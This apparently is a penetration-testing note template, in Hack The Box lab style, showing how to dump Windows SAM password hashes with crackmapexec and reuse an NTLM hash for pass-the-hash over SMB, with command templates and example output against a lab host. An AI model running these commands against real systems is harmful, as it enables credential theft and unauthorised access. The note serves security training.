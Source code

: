 ### Extract Hashes from SAM Database
**If have administrative privileges can extract the SAM database hashes and use them for**
- Authenticating as another user.
- Password Cracking, if we manage to crack the password, we can try to reuse the password for other services or accounts.
- Pass The Hash.

```shell
crackmapexec smb <% tp.frontmatter["RHOSTS"] %> --sam -u <username> -p '<password>' 
```

**Example**
```shell-session
BluePho3nix@htb[/htb]$  crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
SMB         10.10.110.17 445    WIN7BOX  [+] Dumping SAM hashes
SMB         10.10.110.17 445    WIN7BOX  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         10.10.110.17 445    WIN7BOX  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.110.17 445    WIN7BOX  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.110.17 445    WIN7BOX  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5717e1619e16b9179ef2e7138c749d65:::
SMB         10.10.110.17 445    WIN7BOX  jurena:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
SMB         10.10.110.17 445    WIN7BOX  demouser:1002:aad3b435b51404eeaad3b435b51404ee:4c090b2a4a9a78b43510ceec3a60f90b:::
SMB         10.10.110.17 445    WIN7BOX  [+] Added 6 SAM hashes to the database
```

#### Pass-the-Hash (PtH)
If we get the NTLM hash of a user and we can't crack it, we can use Pass-the-Hash to authenticate over SMB (and more).

**We can use a PtH attack with**
- Any `Impacket` tool
- `SMBMap`
- `CrackMapExec`
- Etc..

```shell
crackmapexec smb <% tp.frontmatter["RHOSTS"] %>  -u <username> -H <NTLM hash>
```

**Example**
```shell-session
BluePho3nix@htb[/htb]$  crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\Administrator:2B576ACBE6BCFDA7294D6BD18041B8FE (Pwn3d!)
```
